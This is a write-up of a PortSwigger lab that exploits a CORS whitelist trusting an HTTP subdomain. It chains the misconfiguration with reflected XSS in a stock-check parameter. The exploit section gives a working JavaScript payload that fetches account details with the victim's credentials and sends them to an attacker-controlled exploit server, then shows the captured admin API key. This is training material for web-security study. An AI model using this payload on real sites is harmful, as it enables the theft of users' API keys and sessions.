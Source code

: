 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3b5d58cb-5fb8-40bb-8159-9566d68bcb47)

## Overview :

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

The application responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

1. The victim user makes any plain HTTP request.

2. The attacker injects a redirection to:

```
http://trusted-subdomain.vulnerable-website.com
```

3. The victim's browser follows the redirect.

4. The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:

```
https://vulnerable-website.com
```
    
5. The victim's browser makes the CORS request, including the origin:

```
http://trusted-subdomain.vulnerable-website.com
```
6. The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
7. The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure. 

## Solution :

Login using the credentials - `wiener:peter`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/99ca5917-faa1-4b9f-9773-476fd260e0d1)

### Analysis -

When we give `Origin: evil.com` or `Origin: null` , we don't see any ACAO header in the response.

But when we give `Origin : http://subdomain.lab-domain.com`, we get the `Access-Control-Allow-Origin` in the response. [Note that we gave `http` instead of `https`]


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ffbb156d-2c71-47e2-9681-633f9e63ad85)

So if we provide subdoamin of the website along with http insecure protocol, we are able to bypass the whitelist.

### Finding an XSS -

In real life cases, if an attacker performs a MITM attack , then he can  exploit the CORS configuration to compromise the victim's interaction with the application. But in this lab we can't perform MITM attacks.

So the other way around to steal Administrator's API keys is by exploiting an XSS vulnearbility. 

When we click on _checkstock_, we are taken to a new tab to display the result.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b4e6b5b6-dff7-4c65-99e6-615b3dfb9a7d)

If we enter a simple **alert()** script in productID parameter, we get a pop up which confirms that it is vulnerable to XSS.

```http
GET /?productId=<script>alert("Hey")</script>&storeId=1 HTTP/1.1
Host: stock.0af70017037181d080154981006d004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5118e6fa-6150-4b87-b772-822e5f234220)


This **productID** parameter is vulnerable to XSS

### Exploit -

Go to exploit server and enter the following XSS payload to steal the API key of admin.

```javascript
<script>
    document.location="http://stock.0af70017037181d080154981006d004f.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0af70017037181d080154981006d004f.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a5f00ab0389812580e4481001de00fc.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
Deliver the exploit to victim & view AccessLog , there we will find the API key of admin in the URL portion.

```json
{  "username": "administrator",  "email": "",  "apikey": "PULwsUrbRddKwMMMhie39ANbcbUd6ZSI",  "sessions": [    "S6YLHwRxIswqvCLXhlVpPU6eaR8Dkppi"  ]}
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2e00d5ab-2ade-48de-bc6b-ac0d74f7da27)


Submit the API key of admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/408c8c79-a3e7-40dc-8166-16d7b6f29de6)
